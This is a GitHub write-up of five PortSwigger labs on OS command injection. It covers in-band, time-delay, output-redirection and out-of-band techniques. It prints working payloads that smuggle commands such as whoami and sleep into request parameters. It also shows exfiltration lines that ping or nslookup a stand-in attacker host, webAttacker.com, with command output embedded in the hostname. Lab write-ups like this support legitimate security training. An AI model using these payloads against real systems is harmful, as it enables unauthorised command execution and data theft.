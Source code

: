 #OS Command Injection
## Summary
- [Lab1: OS command injection, simple case](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab1-os-command-injection-simple-case)
- [Lab2: Detecting blind OS command injection using `time delays`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab2-detecting-blind-os-command-injection-using-time-delays)
- [Lab3: Blind OS command injection with `output redirection`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab3-blind-os-command-injection-with-output-redirection)
- [Lab4: Blind OS command injection with `out-of-band interaction`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab4-blind-os-command-injection-with-out-of-band-interaction)
- [Lab5: Blind OS command injection with `out-of-band data exfiltration`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab5-blind-os-command-injection-with-out-of-band-data-exfiltration)

### Lab1: OS command injection, simple case
- At the first, it is a so simple lab, because it is an `in-bind` command injection vulnerability, and we will receive the response of the command in the application when we test any payload of them.
- In the simple case we will use the `commands separators` or `shell metacharacters` in our payloads.
- Commands separators as: `&, &&, |, ||, ;, \n, $()`
- Many command injection attacks need to use the new line `\n` as URL encoding `%0a`.

```
productId=2+%26+whoami+#&storeId=1
productId=1&storeId=3|whoami
productId=1&storeId=1&&whoami
productId=1&storeId=1%26whoami%26
```
- It is important to make a URL encoding for the commands separators to obfuscate them.
- I think it is best to inject spaces to separate command line arguments and also note to convert any space to a `+` sign.

![Lab1_another_payload2.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/Lab1_another_payload2.png)

-----------------------------------------------------------------------
### Lab2: Detecting blind OS command injection using `time delays`
- It is a blind command injection vulnerability, the server doesn't return the response for us when we send our command, and we won't know if it was executed or not.
- So we will use one of the techniques, which is called `trigger a time delay`.
- We will try to delay the response that we will receive to ensure the command is executed on the server by making the server ping on the localhost.
- If we tried to cause the delay in the parameters, we will find the `email` parameter is vulnerable.

```
email=injection%40gmail.com||sleep 10||subject=...
email=injection%40gmail.com||ping -c 10 127.0.0.1||subject=...
email=injection%40gmail.com & ping -c 10 127.0.0.1 #&subject=...
```
- Don't forget to make URL encodeing.

![Lab2.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/Lab2.png)

-----------------------------------------------------------------------
### Lab3: Blind OS command injection with `output redirection`
- At first, we will try to confirm that there is an OS command injection vulnerability in any parameter by using time delays, I think it is the best way to detect and prove it.

![lab3_confirm.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_confirm.png)
- I have seen delays in the response time, so I ensured there is a vulnerability in the `email` parameter.
- We will redirect the results of any commands which we want to do in a text file, and we will access this file to retrieve the content.

![lab3_output_redirection.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_output_redirection.png)
- Now, we want to access this file in the `images` writable directory.
- If you map the application, you will notice the images directory holds all images of the application, and there is a parameter called `filename` that calls the images from the `images` directory.

![lab3_access_file.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_access_file.png)

-----------------------------------------------------------------------
### Lab4: Blind OS command injection with `out-of-band interaction`
- In this technique, we will try o make the server interact with any server we can control and monitor in order to make sure that the server has sent the request to our server and executed the injected command which we passed into the web application.
- So we can use `ping` to make any request and interact with the domain of our server, or make `nslookup` for the domain to resolve it to the IP address.
- Then we will monitor whether the requests succeeded or not.

```
parameter=value || ping subdomain.webAttacker.com ||
parameter=value || nslookup subdomain.webAttacker.com ||
```
#### `Note:`
- In `lab4 & lab5`, you will use the `Burp Collaborator client`, but you must have the `Burp Suite professional`.
- But in the real world, you can use any server you can control.

-----------------------------------------------------------------------

### Lab5: Blind OS command injection with `out-of-band data exfiltration`
- In another technique, you can encapsulate your command in the injected command during executing the original command when it connects with our server.
- you will make it by using:
	- Backtick character  **\`encapsulated command\`**.
	- Dollar character **$(encapsulated command)**.

```
parameter=value || ping `whoami`.subdomain.webAttacker.com ||
parameter=value || ping $(whoami).subdomain.webAttacker.com ||
parameter=value || nslookup `whoami`.subdomain.webAttacker.com ||
parameter=value || nslookup $(whoami).subdomain.webAttacker.com ||
``` 
